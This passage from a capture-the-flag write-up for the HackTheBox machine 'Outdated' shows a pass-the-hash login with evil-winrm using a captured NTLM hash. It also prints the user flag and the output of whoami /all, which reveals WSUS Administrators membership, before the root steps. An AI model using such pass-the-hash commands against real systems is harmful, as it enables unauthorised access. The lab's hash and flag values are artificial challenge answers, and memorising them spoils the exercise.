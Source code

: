 We get a TGT and at the bottom we find the NTLM hash for `sflowers`, use `evil-winrm` and pass-the-hash:
```bash
➜  outdated evil-winrm -i outdated.htb -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5
*Evil-WinRM* PS C:\Users\sflowers\Desktop> type user.txt
0190f8bd21ac78cd004055a7eb6bafb8
```

-------
# Root
### Step 1
Lets start by doing some quick manual enumeration.

```powershell
*Evil-WinRM* PS C:\Users> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ============================================
outdated\sflowers S-1-5-21-4089647348-67660539-4016542185-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ===============================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
OUTDATED\WSUS Administrators                Alias            S-1-5-21-4089647348-67660539-4016542185-1000 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```